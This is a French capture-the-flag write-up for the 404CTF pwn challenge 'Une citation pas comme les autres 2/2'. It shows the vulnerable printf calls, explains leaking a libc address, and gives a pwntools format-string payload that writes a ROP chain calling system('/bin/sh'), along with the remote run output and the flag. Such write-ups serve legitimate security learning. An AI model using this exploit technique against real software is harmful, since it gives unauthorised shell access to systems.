

## PWN / Une citation pas comme les autres 2/2

<p align="center">
  
</p>


### Look around

Le binaire est fourni : [une_citation_pas_comme_les_autres_2_2](files/une_citation_pas_comme_les_autres_2_2)

Ainsi que la libc : [libc-2.27.so](files/lic-2.27.so)

Déjà, ça sent le ROP ...


### Exploitation

Dans le code, on trouve en dur les différentes citations à souffler à Christian pour ne pas vexer Roxane et pouvoir poursuivre le dialogue.

Enfin quand c'est notre tour de nous exprimer une belle format string va encore être bien utile. En fait, deux. Et c'est tout.

```c
fgets(user_input,0x100,stdin);
len = strcspn(user_input,"\n");
user_input[len] = '\0';
printf(user_input);
puts(", dites-vous ?\nLaissez-moi votre place, je vous prie.");
fgets(user_input,0x100,stdin);
printf("[Vous] : ");
printf(user_input);
```

La première va nous permettre de faire fuiter des informations depuis la stack, notamment une adresse de retour dans la libc : `__libc_start_main+234` pour la version locale de la libc (`+231` pour la verison utilisée en remote sur le serveur)

Grâce à cela, on peut alors calculer le décalage de la libc en mémoire et préparer un ROP classique pour obtenir un `exec("/bin/sh")`

Le payload va être ensuite inscrit sur la stack grâce aux formateurs `%n` de `printf` permettant d'écrire.

Le décompte des octets etc étant assez pénible à la main, j'ai utilisé le `fmtstr_payload` de pwntools ... et c'est plus pratique !!

J'ai pas mal galéré pour pas grand chose, mon exploit ne fonctionnait pas en remote, finalement comme souvent en ajoutant un `ret` en tête des gagets ça réaligne la stack et l'appelle à system ne crash plus.

```python
payload =  fmtstr_payload(32, {
    ret_printf     :  ROP_ret,
    ret_printf +  8:  ROP_pop_rdi_ret,
    ret_printf + 16:  STR_binsh,
    ret_printf + 24:  system,
    }, write_size='short', numbwritten=0)
```


### Flag

Le code complet : [exploit.py](files/exploit.py)

```bash
$ python3 exploit.py REMOTE

start_main : 0x21ba0
pop : 0x2164f
ret : 0x8aa
system : 0x4f420
binsh : 0x1b3d88
pop : 0x7f9d4516264f
system : 0x7f9d45190420
binsh : 0x7f9d452f4d88
404CTF{CYr4N0_713N7_14_CH4ND3113_M415_V0U5_3735_D3V3NU_UN_607}
```
